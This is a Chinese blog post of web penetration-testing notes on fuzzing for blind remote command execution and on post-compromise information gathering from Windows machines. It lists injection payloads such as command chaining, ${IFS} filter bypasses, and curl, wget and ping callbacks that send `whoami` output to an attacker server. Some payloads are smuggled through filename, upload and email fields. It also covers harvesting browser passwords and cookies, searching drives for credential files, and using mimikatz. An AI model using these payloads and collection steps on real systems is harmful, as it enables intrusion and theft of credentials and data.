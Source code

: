 ```yaml
---
title:      "「Fuzz」:浅谈一些模糊匹配搜集信息的技巧"
author:     "Bin4xin"
catalog: true

article_header:
  type: cover
tags:
    - 笔记
    - fuzz
    - 信息搜集

---
```


写在文前：

> 我们在web攻防期间有很多时候有一种感觉：那就是遇到rce漏洞时，bp放包的时候有一种隐隐的感觉，有的时候bp的反包字节大小莫名其妙的怪异，有经验的老师傅就索性直接跑RCE的fuzz字典，所以本篇就日常记录一些有关于web攻防期间的一些fuzz技巧

# 服务器RCE的fuzz技巧

* Windows机器的fuzz

即我们可以在关键参数后面使用管道符号和连接符fuzz命令执行实现我们的盲打：

`||和&`
 
* linux机器的fuzz

同上

`||和&`

* Linux下过滤空格可以使用:
```
${IFS},$IFS,$IFS$9
```

* JSON格式下的测试:
```
\u000awget\u0020 http://ip
```

Linux下可以包括反引号，windows下不可以。

## Linux下正常测试rce:
```bash
服务器启动web，注意需要处于监听状态下启动：

bin4xin@bin4xin's MacbookPro tools % python3 -m http.server
Serving HTTP on :: port 8000 (http://[::]:8000/) ...

```
rce fuzz命令如下：
```bash
bin4xin@bin4xin's MacbookPro tools % curl 192.168.101.51:8000/`whoami`
```
同时我们反过来看web日志记录：
```bash
::ffff:192.168.101.51 - - [19/Sep/2020 13:57:25] "GET /bin4xin HTTP/1.1" 301 -
```
同理各位可以发散思维：

ping `whoami`.服务器地址

如上，ping、curl同样适用。


一些特殊字符绕过姿势:

```bash
curl http://服务器地址/$(whoami)

curl http://服务器地址/$(whoami|base64)

'w'g'e't${IFS}服务器地址
```
各位可以自行实验在linux下的效果。

## Windows探测:

fuzz技巧是一样的，只是fuzz命令有一些区别；
```bash
ping %USERNAME%.服务器地址
------
(获取计算机名)
for /F %x in ('whoami') do start http://服务器地址/%x
------
(获取用户名称)
for /F "delims=\ tokens=2" %i in ('whoami') do ping -n 1 %i.服务器地址
------
测试邮箱:`wget%209服务器地址/xxxx`@qq.com

测试上传:`sleep 10`filename

测试filenname:`||wget%20服务器地址`

测试上传处下的名称: ;payload|payload&payload
;whoami|whoami&whoami
------
```

# 个人机器信息收集

1. 浏览器[Chrome,Firefox,Edge,IE,360,QQ ]信息(历史记录，密码，书签，cookie)：

   ```
   %LocalAppData%\Google\Chrome\User Data\Default
   %APPDATA%\Mozilla\Firefox\Profiles\xxxxxxxx.default\
   ```

2. 机器内敏感文件，关键词：账号、密码、备份、登录、管理、邮箱、后台、资产、网络

   ```
   for /r D:\ %i in (*密码*) do @echo %i
   for /r D:\ %i in (*vpn*) do @echo %i
   for /r D:\ %i in (*账号*) do @echo %i
   ```

3. 机器进程

   * 杀软/edr
   * teamviewer/等远程管理工具
   * 服务类进程：mssql/java/web服务

4. 安装软件列表

5. 当前windows 凭证管理器存储的密码

   * 登录密码（mimikatz）

   * wifi密码

   * outlook密码

   * ……

6. 机器开放端口信息/防火墙信息/获取机器共享

   ```
   netstat -naop
   wmic share  get name,path,status  #利用wmic查找共享
   ```

7. 获取机器所有rdp连接记录

8. 获取所有盘符

   ```
   wmic logicaldisk where drivetype=3 get name,freespace,systemname,filesystem,volumeserialnumber,size #查看分区
   ```

9. 获取全盘所有敏感文件

   .doc\xlsx\md\sql\ppt*\txt

   ```
   for /r D:\ %i in (*.doc) do @echo %i
   for /r D:\ %i in (*.xlsx) do @echo %i
   for /r D:\ %i in (*.ppt*)) do @echo %i
   ```

10. 本地环境
    * hosts
    * 环境变量
    * 补丁列表
    * 当前主机的会话信息

工作不饱和 总结了一下个人办公机信息收集思路
